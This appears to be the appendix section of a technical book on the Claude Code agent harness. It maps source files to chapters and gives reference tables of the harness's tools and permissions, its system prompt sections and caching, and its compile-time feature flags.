**src/memdir/memoryTypes.ts** -- Chapters 26

**src/memdir/paths.ts** -- Chapters 26

**src/query.ts** -- Chapters 7

**src/query/config.ts** -- Chapters 7

**src/query/deps.ts** -- Chapters 7

**src/query/stopHooks.ts** -- Chapters 7

**src/query/tokenBudget.ts** -- Chapters 7, 10

**src/schemas/hooks.ts** -- Chapters 36, 37

**src/screens/REPL.tsx** -- Chapters 43

**src/services/SessionMemory/prompts.ts** -- Chapters 27

**src/services/SessionMemory/sessionMemory.ts** -- Chapters 27

**src/services/analytics/growthbook.ts** -- Chapters 50

**src/services/analytics/index.ts** -- Chapters 50

**src/services/api/claude.ts** -- Chapters 8

**src/services/api/errors.ts** -- Chapters 8

**src/services/api/logging.ts** -- Chapters 8

**src/services/api/usage.ts** -- Chapters 8

**src/services/autoDream/autoDream.ts** -- Chapters 24

**src/services/autoDream/consolidationLock.ts** -- Chapters 24

**src/services/autoDream/consolidationPrompt.ts** -- Chapters 24

**src/services/compact/apiMicrocompact.ts** -- Chapters 28

**src/services/compact/autoCompact.ts** -- Chapters 28

**src/services/compact/compact.ts** -- Chapters 28

**src/services/compact/compactWarningHook.ts** -- Chapters 28

**src/services/compact/microCompact.ts** -- Chapters 28

**src/services/compact/postCompactCleanup.ts** -- Chapters 28

**src/services/compact/sessionMemoryCompact.ts** -- Chapters 28

**src/services/compact/timeBasedMCConfig.ts** -- Chapters 28

**src/services/lsp/LSPClient.ts** -- Chapters 15

**src/services/lsp/LSPDiagnosticRegistry.ts** -- Chapters 15

**src/services/lsp/LSPServerInstance.ts** -- Chapters 15

**src/services/lsp/LSPServerManager.ts** -- Chapters 15

**src/services/lsp/config.ts** -- Chapters 15

**src/services/lsp/manager.ts** -- Chapters 15

**src/services/lsp/passiveFeedback.ts** -- Chapters 15

**src/services/mcp/MCPConnectionManager.tsx** -- Chapters 40

**src/services/mcp/auth.ts** -- Chapters 40

**src/services/mcp/client.ts** -- Chapters 40

**src/services/mcp/config.ts** -- Chapters 40

**src/services/mcp/types.ts** -- Chapters 40

**src/services/tokenEstimation.ts** -- Chapters 10

**src/services/tools/StreamingToolExecutor.ts** -- Chapters 12

**src/services/tools/toolExecution.ts** -- Chapters 12

**src/services/tools/toolHooks.ts** -- Chapters 12

**src/services/tools/toolOrchestration.ts** -- Chapters 12

**src/skills/bundledSkills.ts** -- Chapters 38

**src/skills/loadSkillsDir.ts** -- Chapters 38

**src/state/AppState.tsx** -- Chapters 30

**src/state/AppStateStore.ts** -- Chapters 10, 30

**src/state/onChangeAppState.ts** -- Chapters 30

**src/tools.ts** -- Chapters 11

**src/tools/AgentTool/AgentTool.tsx** -- Chapters 18

**src/tools/AgentTool/forkSubagent.ts** -- Chapters 19

**src/tools/AgentTool/loadAgentsDir.ts** -- Chapters 20

**src/tools/AgentTool/runAgent.ts** -- Chapters 19

**src/tools/AskUserQuestionTool/AskUserQuestionTool.tsx** -- Chapters 17

**src/tools/AskUserQuestionTool/prompt.ts** -- Chapters 17

**src/tools/BashTool/BashTool.tsx** -- Chapters 14

**src/tools/BashTool/bashPermissions.ts** -- Chapters 14

**src/tools/BashTool/bashSecurity.ts** -- Chapters 14

**src/tools/BashTool/commandSemantics.ts** -- Chapters 14

**src/tools/BashTool/destructiveCommandWarning.ts** -- Chapters 14

**src/tools/BashTool/modeValidation.ts** -- Chapters 14

**src/tools/BashTool/pathValidation.ts** -- Chapters 14

**src/tools/BashTool/prompt.ts** -- Chapters 14

**src/tools/BashTool/readOnlyValidation.ts** -- Chapters 14

**src/tools/BashTool/shouldUseSandbox.ts** -- Chapters 14

**src/tools/BriefTool/BriefTool.ts** -- Chapters 17

**src/tools/BriefTool/attachments.ts** -- Chapters 17

**src/tools/BriefTool/prompt.ts** -- Chapters 17

**src/tools/BriefTool/UI.tsx** -- Chapters 17

**src/tools/BriefTool/upload.ts** -- Chapters 17

**src/tools/ConfigTool/ConfigTool.ts** -- Chapters 17

**src/tools/ConfigTool/constants.ts** -- Chapters 17

**src/tools/ConfigTool/prompt.ts** -- Chapters 17

**src/tools/ConfigTool/supportedSettings.ts** -- Chapters 17

**src/tools/ConfigTool/UI.tsx** -- Chapters 17

**src/tools/EnterPlanModeTool/EnterPlanModeTool.ts** -- Chapters 45

**src/tools/EnterWorktreeTool/EnterWorktreeTool.ts** -- Chapters 46

**src/tools/EnterWorktreeTool/constants.ts** -- Chapters 46

**src/tools/EnterWorktreeTool/prompt.ts** -- Chapters 46

**src/tools/EnterWorktreeTool/UI.tsx** -- Chapters 46

**src/tools/ExitPlanModeTool/ExitPlanModeV2Tool.ts** -- Chapters 45

**src/tools/ExitWorktreeTool/ExitWorktreeTool.ts** -- Chapters 46

**src/tools/ExitWorktreeTool/constants.ts** -- Chapters 46

**src/tools/ExitWorktreeTool/prompt.ts** -- Chapters 46

**src/tools/ExitWorktreeTool/UI.tsx** -- Chapters 46

**src/tools/FileEditTool/FileEditTool.ts** -- Chapters 13

**src/tools/FileEditTool/constants.ts** -- Chapters 13

**src/tools/FileEditTool/prompt.ts** -- Chapters 13

**src/tools/FileEditTool/types.ts** -- Chapters 13

**src/tools/FileEditTool/UI.tsx** -- Chapters 13

**src/tools/FileEditTool/utils.ts** -- Chapters 13

**src/tools/FileReadTool/FileReadTool.ts** -- Chapters 13

**src/tools/FileReadTool/imageProcessor.ts** -- Chapters 13

**src/tools/FileReadTool/limits.ts** -- Chapters 13

**src/tools/FileReadTool/prompt.ts** -- Chapters 13

**src/tools/FileReadTool/UI.tsx** -- Chapters 13

**src/tools/FileWriteTool/FileWriteTool.ts** -- Chapters 13

**src/tools/FileWriteTool/prompt.ts** -- Chapters 13

**src/tools/FileWriteTool/UI.tsx** -- Chapters 13

**src/tools/GlobTool/GlobTool.ts** -- Chapters 13

**src/tools/GlobTool/prompt.ts** -- Chapters 13

**src/tools/GlobTool/UI.tsx** -- Chapters 13

**src/tools/GrepTool/GrepTool.ts** -- Chapters 13

**src/tools/GrepTool/prompt.ts** -- Chapters 13

**src/tools/GrepTool/UI.tsx** -- Chapters 13

**src/tools/LSPTool/LSPTool.ts** -- Chapters 15

**src/tools/LSPTool/formatters.ts** -- Chapters 15

**src/tools/LSPTool/prompt.ts** -- Chapters 15

**src/tools/LSPTool/schemas.ts** -- Chapters 15

**src/tools/LSPTool/symbolContext.ts** -- Chapters 15

**src/tools/LSPTool/UI.tsx** -- Chapters 15

**src/tools/ListMcpResourcesTool/ListMcpResourcesTool.ts** -- Chapters 41

**src/tools/ListMcpResourcesTool/prompt.ts** -- Chapters 41

**src/tools/ListMcpResourcesTool/UI.tsx** -- Chapters 41

**src/tools/MCPTool/MCPTool.ts** -- Chapters 41

**src/tools/NotebookEditTool/NotebookEditTool.ts** -- Chapters 13

**src/tools/NotebookEditTool/constants.ts** -- Chapters 13

**src/tools/NotebookEditTool/prompt.ts** -- Chapters 13

**src/tools/NotebookEditTool/UI.tsx** -- Chapters 13

**src/tools/PowerShellTool/PowerShellTool.tsx** -- Chapters 14

**src/tools/PowerShellTool/commandSemantics.ts** -- Chapters 14

**src/tools/PowerShellTool/destructiveCommandWarning.ts** -- Chapters 14

**src/tools/PowerShellTool/modeValidation.ts** -- Chapters 14

**src/tools/PowerShellTool/pathValidation.ts** -- Chapters 14

**src/tools/PowerShellTool/powershellPermissions.ts** -- Chapters 14

**src/tools/PowerShellTool/powershellSecurity.ts** -- Chapters 14

**src/tools/PowerShellTool/prompt.ts** -- Chapters 14

**src/tools/PowerShellTool/readOnlyValidation.ts** -- Chapters 14

**src/tools/PowerShellTool/toolName.ts** -- Chapters 14

**src/tools/ReadMcpResourceTool/ReadMcpResourceTool.ts** -- Chapters 41

**src/tools/ReadMcpResourceTool/prompt.ts** -- Chapters 41

**src/tools/ReadMcpResourceTool/UI.tsx** -- Chapters 41

**src/tools/RemoteTriggerTool/RemoteTriggerTool.ts** -- Chapters 48

**src/tools/RemoteTriggerTool/prompt.ts** -- Chapters 48

**src/tools/RemoteTriggerTool/UI.tsx** -- Chapters 48

**src/tools/ScheduleCronTool/CronCreateTool.ts** -- Chapters 47

**src/tools/ScheduleCronTool/CronDeleteTool.ts** -- Chapters 47

**src/tools/ScheduleCronTool/CronListTool.ts** -- Chapters 47

**src/tools/ScheduleCronTool/prompt.ts** -- Chapters 47

**src/tools/ScheduleCronTool/UI.tsx** -- Chapters 47

**src/tools/SendMessageTool/SendMessageTool.ts** -- Chapters 17, 23

**src/tools/SendMessageTool/constants.ts** -- Chapters 17, 23

**src/tools/SendMessageTool/prompt.ts** -- Chapters 17, 23

**src/tools/SendMessageTool/UI.tsx** -- Chapters 17, 23

**src/tools/SkillTool/SkillTool.ts** -- Chapters 38

**src/tools/TaskCreateTool/TaskCreateTool.ts** -- Chapters 22

**src/tools/TaskCreateTool/constants.ts** -- Chapters 22

**src/tools/TaskCreateTool/prompt.ts** -- Chapters 22

**src/tools/TaskGetTool/TaskGetTool.ts** -- Chapters 22

**src/tools/TaskGetTool/constants.ts** -- Chapters 22

**src/tools/TaskGetTool/prompt.ts** -- Chapters 22

**src/tools/TaskListTool/TaskListTool.ts** -- Chapters 22

**src/tools/TaskListTool/constants.ts** -- Chapters 22

**src/tools/TaskListTool/prompt.ts** -- Chapters 22

**src/tools/TaskOutputTool/TaskOutputTool.tsx** -- Chapters 22

**src/tools/TaskOutputTool/constants.ts** -- Chapters 22

**src/tools/TaskStopTool/TaskStopTool.ts** -- Chapters 22

**src/tools/TaskStopTool/prompt.ts** -- Chapters 22

**src/tools/TaskStopTool/UI.tsx** -- Chapters 22

**src/tools/TaskUpdateTool/TaskUpdateTool.ts** -- Chapters 22

**src/tools/TaskUpdateTool/constants.ts** -- Chapters 22

**src/tools/TaskUpdateTool/prompt.ts** -- Chapters 22

**src/tools/TodoWriteTool/TodoWriteTool.ts** -- Chapters 17

**src/tools/TodoWriteTool/constants.ts** -- Chapters 17

**src/tools/TodoWriteTool/prompt.ts** -- Chapters 17

**src/tools/ToolSearchTool/ToolSearchTool.ts** -- Chapters 15

**src/tools/ToolSearchTool/constants.ts** -- Chapters 15

**src/tools/ToolSearchTool/prompt.ts** -- Chapters 15

**src/tools/WebFetchTool/WebFetchTool.ts** -- Chapters 16

**src/tools/WebFetchTool/preapproved.ts** -- Chapters 16

**src/tools/WebFetchTool/prompt.ts** -- Chapters 16

**src/tools/WebFetchTool/UI.tsx** -- Chapters 16

**src/tools/WebFetchTool/utils.ts** -- Chapters 16

**src/tools/WebSearchTool/WebSearchTool.ts** -- Chapters 16

**src/tools/WebSearchTool/prompt.ts** -- Chapters 16

**src/tools/WebSearchTool/UI.tsx** -- Chapters 16

**src/utils/analyzeContext.ts** -- Chapters 9

**src/utils/attachments.ts** -- Chapters 25

**src/utils/claudemd.ts** -- Chapters 9, 31

**src/utils/context.ts** -- Chapters 9

**src/utils/cron.ts** -- Chapters 47

**src/utils/cronTasks.ts** -- Chapters 47

**src/utils/debug.ts** -- Chapters 51

**src/utils/fileHistory.ts** -- Chapters 13

**src/utils/forkedAgent.ts** -- Chapters 19

**src/utils/frontmatterParser.ts** -- Chapters 20

**src/utils/hooks.ts** -- Chapters 36

**src/utils/hooks/execAgentHook.ts** -- Chapters 37

**src/utils/hooks/execHttpHook.ts** -- Chapters 37

**src/utils/hooks/execPromptHook.ts** -- Chapters 37

**src/utils/hooks/hookEvents.ts** -- Chapters 37

**src/utils/hooks/hooksConfigManager.ts** -- Chapters 36

**src/utils/hooks/hooksSettings.ts** -- Chapters 36

**src/utils/hooks/registerSkillHooks.ts** -- Chapters 37

**src/utils/hooks/sessionHooks.ts** -- Chapters 23, 37

**src/utils/hooks/ssrfGuard.ts** -- Chapters 16, 37

**src/utils/messages.ts** -- Chapters 25, 28

**src/utils/permissions/PermissionMode.ts** -- Chapters 32, 52

**src/utils/permissions/PermissionRule.ts** -- Chapters 32, 52

**src/utils/permissions/autoModeState.ts** -- Chapters 52

**src/utils/permissions/bashClassifier.ts** -- Chapters 14, 33, 52

**src/utils/permissions/dangerousPatterns.ts** -- Chapters 52

**src/utils/permissions/denialTracking.ts** -- Chapters 34, 52

**src/utils/permissions/filesystem.ts** -- Chapters 34, 52

**src/utils/permissions/permissionRuleParser.ts** -- Chapters 52

**src/utils/permissions/permissions.ts** -- Chapters 32, 52

**src/utils/permissions/yoloClassifier.ts** -- Chapters 52

**src/utils/plugins/loadPluginAgents.ts** -- Chapters 20

**src/utils/processUserInput/processSlashCommand.tsx** -- Chapters 39

**src/utils/sessionStorage.ts** -- Chapters 29

**src/utils/sessionStoragePortable.ts** -- Chapters 29

**src/utils/settings/settings.ts** -- Chapters 5, 31

**src/utils/settings/settingsCache.ts** -- Chapters 31

**src/utils/settings/types.ts** -- Chapters 31

**src/utils/slashCommandParsing.ts** -- Chapters 39

**src/utils/tasks.ts** -- Chapters 22

**src/utils/worktree.ts** -- Chapters 46

**src/bootstrap/state.ts** -- Chapters 5, 30

**src/utils/bundledMode.ts** -- Chapters 4

**src/components/PromptInput/PromptInput.tsx** -- Chapters 43

**src/tasks/DreamTask/DreamTask.ts** -- Chapters 22, 24

**src/tasks/LocalAgentTask/LocalAgentTask.tsx** -- Chapters 19, 22

**src/tasks/LocalMainSessionTask.ts** -- Chapters 22

**src/tasks/RemoteAgentTask/RemoteAgentTask.tsx** -- Chapters 19, 22, 48

**src/utils/planModeV2.ts** -- Chapters 45

**src/upstreamproxy/relay.ts** -- Chapters 52

**src/upstreamproxy/upstreamproxy.ts** -- Chapters 52

---

## Summary

- **Total unique source files cited:** 227
- **Total chapters with source file citations:** 50 (chapters 2, 53, 54, 55, 56, 57 have no source files listed)
- **Chapters without source files:** 2, 53, 54, 55, 56, 57

## Top 10 Most-Cited Source Files

| Rank | File | Chapters |
|------|------|----------|
| 1 | src/tools/SendMessageTool/SendMessageTool.ts | 17, 23 |
| 2 | src/tools/SendMessageTool/constants.ts | 17, 23 |
| 3 | src/tools/SendMessageTool/prompt.ts | 17, 23 |
| 4 | src/tools/SendMessageTool/UI.tsx | 17, 23 |
| 5 | src/entrypoints/cli.tsx | 1, 5 |
| 6 | src/ink/ink.tsx | 4, 42 |
| 7 | src/ink/screen.ts | 4, 42 |
| 8 | src/hooks/useCanUseTool.tsx | 12, 35 |
| 9 | src/state/AppStateStore.ts | 10, 30 |
| 10 | src/main.tsx | 1, 3, 6 |


# Appendix D. Tool Reference Table

This appendix catalogs every tool registered in the Claude Code harness. The table covers both the core tools that ship in the external build and the ant-only tools gated behind compile-time feature flags. Tools are grouped by functional category. The columns are:

- **Tool Name**: the string returned by the tool's `name` property and seen by the model in the tool-use API.
- **Directory / Source**: the directory under `src/tools/` or, for MCP-derived tools, the service path.
- **Permission Required**: the permission class the harness checks before execution (Read, Write, Execute, Network, or None).
- **Feature Flag Gate**: the `feature('...')` compile-time constant (if any) that must be true for the tool to exist in the build.
- **Read-Only**: whether the tool is guaranteed to leave the filesystem and system state unchanged.
- **Concurrency-Safe**: whether the tool can safely run in parallel with other instances of itself.
- **Destructive**: whether the tool can irreversibly modify or delete data.

## Core File System Tools

| Tool Name | Directory | Permission | Feature Flag | Read-Only | Conc-Safe | Destructive |
|---|---|---|---|---|---|---|
| Read | FileReadTool/ | Read | None | Yes | Yes | No |
| Edit | FileEditTool/ | Write | None | No | No | No |
| MultiEdit | FileEditTool/ | Write | None | No | No | No |
| Write | FileWriteTool/ | Write | None | No | No | Yes |
| NotebookEdit | NotebookEditTool/ | Write | None | No | No | No |
| Glob | GlobTool/ | Read | None | Yes | Yes | No |
| Grep | GrepTool/ | Read | None | Yes | Yes | No |

## Shell Execution Tools

| Tool Name | Directory | Permission | Feature Flag | Read-Only | Conc-Safe | Destructive |
|---|---|---|---|---|---|---|
| Bash | BashTool/ | Execute | None | No | No | Varies |
| PowerShell | BashTool/ (shared infra) | Execute | None (Windows only) | No | No | Varies |
| REPL | REPLTool/ | Execute | None (ant-only runtime gate) | No | No | Varies |

## Agent and Task Management Tools

| Tool Name | Directory | Permission | Feature Flag | Read-Only | Conc-Safe | Destructive |
|---|---|---|---|---|---|---|
| Agent | AgentTool/ | Execute | None | No | Yes | No |
| TaskCreate | TaskCreateTool/ | Execute | None | No | No | No |
| TaskGet | TaskGetTool/ | Read | None | Yes | Yes | No |
| TaskUpdate | TaskUpdateTool/ | Execute | None | No | No | No |
| TaskList | TaskListTool/ | Read | None | Yes | Yes | No |
| TaskOutput | TaskOutputTool/ | Read | None | Yes | Yes | No |
| TaskStop | TaskStopTool/ | Execute | None | No | No | No |
| SendMessage | SendMessageTool/ | Execute | COORDINATOR_MODE | No | Yes | No |
| TeamCreate | TeamCreateTool/ | Execute | KAIROS | No | No | No |
| TeamDelete | TeamDeleteTool/ | Execute | KAIROS | No | No | Yes |

## User Interaction and Plan Mode Tools

| Tool Name | Directory | Permission | Feature Flag | Read-Only | Conc-Safe | Destructive |
|---|---|---|---|---|---|---|
| AskUserQuestion | AskUserQuestionTool/ | None | None | Yes | Yes | No |
| EnterPlanMode | EnterPlanModeTool/ | None | None | Yes | Yes | No |
| ExitPlanMode | ExitPlanModeTool/ | None | None | Yes | Yes | No |
| TodoWrite | TodoWriteTool/ | Write | None | No | No | No |
| Config | ConfigTool/ | Execute | None (ant-only runtime gate) | No | No | Yes |

## Web and Network Tools

| Tool Name | Directory | Permission | Feature Flag | Read-Only | Conc-Safe | Destructive |
|---|---|---|---|---|---|---|
| WebFetch | WebFetchTool/ | Network | None | Yes | No | No |
| WebSearch | WebSearchTool/ | Network | None | Yes | No | No |

## MCP Integration Tools

| Tool Name | Directory | Permission | Feature Flag | Read-Only | Conc-Safe | Destructive |
|---|---|---|---|---|---|---|
| (dynamic MCP tools) | MCPTool/ | Execute | None | Varies | Varies | Varies |
| McpAuth | McpAuthTool/ (implicit) | Network | None | Yes | Yes | No |
| ListMcpResourcesTool | ListMcpResourcesTool/ | Read | None | Yes | Yes | No |
| ReadMcpResourceTool | ReadMcpResourceTool/ | Read | None | Yes | Yes | No |

## Skill and Search Tools

| Tool Name | Directory | Permission | Feature Flag | Read-Only | Conc-Safe | Destructive |
|---|---|---|---|---|---|---|
| Skill | SkillTool/ | Execute | None | No | Yes | No |
| ToolSearch | ToolSearchTool/ | Read | None | Yes | Yes | No |
| LSP | LSPTool/ | Read | None (env gate: ENABLE_LSP_TOOL) | Yes | Yes | No |

## Git Worktree Tools

| Tool Name | Directory | Permission | Feature Flag | Read-Only | Conc-Safe | Destructive |
|---|---|---|---|---|---|---|
| EnterWorktree | EnterWorktreeTool/ | Execute | WORKTREE_MODE | No | No | No |
| ExitWorktree | ExitWorktreeTool/ | Execute | WORKTREE_MODE | No | No | Varies |

## Scheduling and Trigger Tools

| Tool Name | Directory | Permission | Feature Flag | Read-Only | Conc-Safe | Destructive |
|---|---|---|---|---|---|---|
| CronCreate | ScheduleCronTool/ | Execute | AGENT_TRIGGERS | No | No | No |
| CronDelete | ScheduleCronTool/ | Execute | AGENT_TRIGGERS | No | No | Yes |
| CronList | ScheduleCronTool/ | Read | AGENT_TRIGGERS | Yes | Yes | No |
| RemoteTrigger | RemoteTriggerTool/ | Execute | AGENT_TRIGGERS_REMOTE | No | No | No |

## Internal and Ant-Only Tools

These tools are stripped from external builds via compile-time feature flags.

| Tool Name | Directory | Permission | Feature Flag | Read-Only | Conc-Safe | Destructive |
|---|---|---|---|---|---|---|
| SendUserMessage | BriefTool/ | None | KAIROS or KAIROS_BRIEF | Yes | Yes | No |
| StructuredOutput | SyntheticOutputTool/ | None | None (non-interactive only) | Yes | Yes | No |
| Sleep | SleepTool/ | None | None | Yes | Yes | No |
| Workflow | WorkflowTool/ | Execute | WORKFLOW_SCRIPTS | No | No | No |
| Tungsten | (ant-only) | Read | None (ant-only runtime gate) | Yes | Yes | No |
| Monitor | (ant-only) | Read | MONITOR_TOOL | Yes | Yes | No |
| WebBrowser | (ant-only) | Execute | WEB_BROWSER_TOOL | No | No | No |
| OverflowTest | (ant-only) | None | OVERFLOW_TEST_TOOL | Yes | Yes | No |
| Snip | (ant-only) | None | HISTORY_SNIP | Yes | Yes | No |
| TerminalCapture | (ant-only) | Read | TERMINAL_PANEL | Yes | Yes | No |
| CtxInspect | (ant-only) | Read | CONTEXT_COLLAPSE | Yes | Yes | No |
| SubscribePR | (ant-only) | Network | KAIROS_GITHUB_WEBHOOKS | Yes | No | No |
| PushNotification | (ant-only) | Network | KAIROS_PUSH_NOTIFICATION | Yes | No | No |
| SendUserFile | (ant-only) | Network | KAIROS | No | No | No |
| SuggestBackgroundPR | (ant-only) | Execute | PROACTIVE | No | No | No |
| ListPeers | (ant-only) | Read | UDS_INBOX | Yes | Yes | No |

**Source files**: `src/Tool.ts` (base type definition), `src/tools.ts` (tool registration), `src/constants/tools.ts` (tool set constants), and individual tool directories under `src/tools/`.

# Appendix E. System Prompt Section Catalog

Claude Code assembles its system prompt from a set of named sections. Each section is either **cached** (computed once per session, recomputed on `/clear` or `/compact`) or **uncached** (recomputed every turn, which breaks the prompt cache when the value changes). The infrastructure is defined in `src/constants/systemPromptSections.ts`, and the sections themselves are registered in `src/constants/prompts.ts` via the `getSystemPrompt()` function.

## Static Sections (Always Included, Cacheable)

These sections are placed before the `SYSTEM_PROMPT_DYNAMIC_BOUNDARY` marker and are cacheable across the entire conversation when `shouldUseGlobalCacheScope()` returns true.

| Section | Function | Content |
|---|---|---|
| Identity and Purpose | `getSimpleIntroSection()` | Establishes Claude Code identity, Anthropic attribution, and output style configuration |
| Core Behavioral Rules | `getSimpleSystemSection()` | Cyber-risk instruction, proactive-information rules, tool-use discipline |
| Task Execution | `getSimpleDoingTasksSection()` | Guidelines for git, code modifications, testing, debugging, writing code |
| Actions | `getActionsSection()` | Available slash commands and their descriptions |
| Tool Usage | `getUsingYourToolsSection()` | Rules for preferring dedicated tools over Bash, parallel call guidance |
| Tone and Style | `getSimpleToneAndStyleSection()` | Emoji policy, conciseness, file path references, GitHub link format |
| Output Efficiency | `getOutputEfficiencySection()` | Ant-only: prose communication rules; External: conciseness instructions |

## Dynamic Sections (Registry-Managed)

These sections are registered via `systemPromptSection()` or `DANGEROUS_uncachedSystemPromptSection()` and placed after the `SYSTEM_PROMPT_DYNAMIC_BOUNDARY` marker.

| Section Name | Cached/Uncached | Recomputation Trigger | Content |
|---|---|---|---|
| `session_guidance` | Cached | /clear, /compact | Enabled tools list, skill tool commands, plan mode instructions, agent tool guidance, verification agent instructions |
| `memory` | Cached | /clear, /compact | Contents of all CLAUDE.md files (user, project, local, managed) |
| `ant_model_override` | Cached | /clear, /compact | Model override instructions for internal Anthropic users |
| `env_info_simple` | Cached | /clear, /compact | OS, shell, working directory, git branch, date, model name |
| `language` | Cached | /clear, /compact | Output language preference from settings |
| `output_style` | Cached | /clear, /compact | Custom output style rules from user configuration |
| `mcp_instructions` | **Uncached** | Every turn | Instructions from connected MCP servers; recomputed because servers connect and disconnect between turns. Skipped when MCP instructions delta is enabled (uses attachments instead) |
| `scratchpad` | Cached | /clear, /compact | Scratchpad directory path and usage instructions |
| `frc` | Cached | /clear, /compact | Function result clearing instructions and micro-compact configuration |
| `summarize_tool_results` | Cached | /clear, /compact | Instructions for summarizing verbose tool outputs |
| `numeric_length_anchors` | Cached | /clear, /compact | Numeric word limits for responses (ant-only: 25 words between tool calls, 100 words for final responses) |
| `token_budget` | Cached | /clear, /compact | Instructions for working until token target is reached (TOKEN_BUDGET feature) |
| `brief` | Cached | /clear, /compact | Brief response mode instructions (KAIROS/KAIROS_BRIEF) |

## Section Resolution Mechanism

The `resolveSystemPromptSections()` function in `systemPromptSections.ts` manages caching:

1. For each section, it checks whether the section is cached (`cacheBreak: false`) and whether a cached value exists.
2. If cached and available, it returns the cached value without recomputation.
3. If uncached (`cacheBreak: true`) or no cached value exists, it calls the section's `compute()` function.
4. Results are stored in the section cache via `setSystemPromptSectionCacheEntry()`.
5. The entire cache is cleared by `clearSystemPromptSections()`, which is called on `/clear` and `/compact`. This function also resets beta header latches so fresh conversations get fresh evaluation of AFK/fast-mode/cache-editing headers.

The `SYSTEM_PROMPT_DYNAMIC_BOUNDARY` marker separates the static prefix (identical across sessions using the same tool set) from the dynamic suffix. When `shouldUseGlobalCacheScope()` is true, the static prefix produces the same Blake2b hash across sessions, enabling prompt caching optimization at the provider level.

**Source files**: `src/constants/systemPromptSections.ts`, `src/constants/prompts.ts`, `src/utils/systemPrompt.ts`.

# Appendix F. Feature Flag Reference

Claude Code uses Bun's `feature()` compile-time constant mechanism for dead-code elimination. When a flag is false in the build configuration, the bundler removes all gated code paths entirely, keeping the external binary small and preventing access to ant-only features. The table below lists all 97 feature flags found in the source, organized by functional domain.

## Agent and Coordination Flags

| Flag Name | Purpose | Ant/External | Gated Code Paths |
|---|---|---|---|
| COORDINATOR_MODE | Multi-agent coordinator mode | Ant | coordinatorMode.ts, tool registration (AgentTool + TaskStop in SIMPLE mode), session resume mode selection |
| AGENT_TRIGGERS | Scheduled task triggers (cron) | Ant | CronCreate/CronDelete/CronList tools, useScheduledTasks hook |
| AGENT_TRIGGERS_REMOTE | Remote-triggered agents | Ant | RemoteTriggerTool |
| AGENT_MEMORY_SNAPSHOT | Agent memory snapshots | Ant | Memory snapshot persistence for custom agents |
| BUILTIN_EXPLORE_PLAN_AGENTS | Built-in explore/plan agent types | Ant | Explore and Plan agent definitions in agent tool |
| FORK_SUBAGENT | Fork-style subagent spawning | Ant | Fork subagent path in AgentTool, prompt guidance |
| VERIFICATION_AGENT | Adversarial verification agent | Ant | Verification agent prompt section, subagent_type verification |
| BG_SESSIONS | Background session management | Ant | Background session startup, task summary module |
| TEAMMEM | Team memory synchronization | Ant | Team memory paths, watcher, prompts, file detection |
| UDS_INBOX | Unix domain socket inbox | Ant | ListPeersTool, messaging socket setup |

## Kairos and Assistant Mode Flags

| Flag Name | Purpose | Ant/External | Gated Code Paths |
|---|---|---|---|
| KAIROS | Full Kairos/assistant feature set | Ant | BriefTool, SendUserFileTool, proactive sections, brief section, numeric length anchors, keybindings, assistant activation, channel notifications |
| KAIROS_BRIEF | Brief response mode subset | Ant | BriefTool, brief section, getUserMsgOptIn |
| KAIROS_CHANNELS | Channel notification support | Ant | Channel notification system, MCP connection channel handling |
| KAIROS_DREAM | Dream/consolidation feature | Ant | Dream skill in bundled skills |
| KAIROS_GITHUB_WEBHOOKS | GitHub PR webhook subscriptions | Ant | SubscribePRTool |
| KAIROS_PUSH_NOTIFICATION | Push notification support | Ant | PushNotificationTool |
| BUDDY | Companion sprite UI | Ant | CompanionSprite component, companion prompts, floating bubble |

## Bridge and Remote Connectivity Flags

| Flag Name | Purpose | Ant/External | Gated Code Paths |
|---|---|---|---|
| BRIDGE_MODE | Remote Control bridge | Ant | bridgeEnabled.ts, entire bridge subsystem, replBridge.ts |
| CCR_AUTO_CONNECT | Auto-connect to CCR | Ant | getCcrAutoConnectDefault() |
| CCR_MIRROR | CCR mirror mode | Ant | isCcrMirrorEnabled(), mirror telemetry |
| CCR_REMOTE_SETUP | Remote setup via CCR | Ant | Remote setup flow in bridge |
| DIRECT_CONNECT | Direct connection mode | Ant | Direct connect startup path in main.tsx |
| SSH_REMOTE | SSH remote session support | Ant | SSH remote pending state in main.tsx |
| LODESTONE | Lodestone integration | Ant | Lodestone startup check, settings types |

## Tool-Specific Flags

| Flag Name | Purpose | Ant/External | Gated Code Paths |
|---|---|---|---|
| WORKTREE_MODE | Git worktree support | External | EnterWorktreeTool, ExitWorktreeTool |
| WORKFLOW_SCRIPTS | Workflow script execution | Ant | WorkflowTool, agent disallowed tools |
| MONITOR_TOOL | File/system monitoring | Ant | MonitorTool, Bash/PowerShell background task hints |
| WEB_BROWSER_TOOL | Web browser tool | Ant | WebBrowserTool, WebBrowserPanel component |
| OVERFLOW_TEST_TOOL | Context overflow testing | Ant | OverflowTestTool |
| HISTORY_SNIP | Conversation snipping | Ant | SnipTool, message history snip handling |
| TERMINAL_PANEL | Terminal panel UI | Ant | TerminalCaptureTool, keybindings |

## Context and Compaction Flags

| Flag Name | Purpose | Ant/External | Gated Code Paths |
|---|---|---|---|
| REACTIVE_COMPACT | Reactive context compaction | Ant | Reactive compaction triggers in analyzeContext.ts, autoCompact.ts |
| CONTEXT_COLLAPSE | Context collapse/overflow handling | Ant | CtxInspectTool, ResumeConversation context selection, session restore |
| CACHED_MICROCOMPACT | Cached micro-compact section | Ant | getCachedMCConfigForFRC, micro-compact cache editing |
| COMPACTION_REMINDERS | Compaction reminder attachments | Ant | Compaction reminder attachment generation |
| PROMPT_CACHE_BREAK_DETECTION | Detect prompt cache breaks | Ant | Micro-compact cache-break detection, compact flow |

## Permissions and Security Flags

| Flag Name | Purpose | Ant/External | Gated Code Paths |
|---|---|---|---|
| TRANSCRIPT_CLASSIFIER | Transcript classification | Ant | AFK mode beta header, BASH_CLASSIFIER integration, auto-mode state, tool execution classification |
| BASH_CLASSIFIER | Bash command classification | Ant | StructuredIO classification, permission handlers, classifier decision |
| TREE_SITTER_BASH | Tree-sitter Bash parsing | Ant | Bash parser tree-sitter path |
| TREE_SITTER_BASH_SHADOW | Tree-sitter Bash shadow mode | Ant | Shadow-mode comparison in bashPermissions |
| POWERSHELL_AUTO_MODE | PowerShell auto-mode support | Ant | PowerShell classifier integration |
| NATIVE_CLIENT_ATTESTATION | Client attestation header | Ant | CCH header in HTTP requests |
| ANTI_DISTILLATION_CC | Anti-distillation protections | Ant | Anti-distillation markers in system prompt |

## UI and Experience Flags

| Flag Name | Purpose | Ant/External | Gated Code Paths |
|---|---|---|---|
| VOICE_MODE | Voice input mode | Ant | Voice integration hooks, keybindings, voice provider |
| MESSAGE_ACTIONS | Message action buttons | Ant | Keybinding registration, message action handlers |
| QUICK_SEARCH | Quick search keybinding | Ant | Keybinding registration |
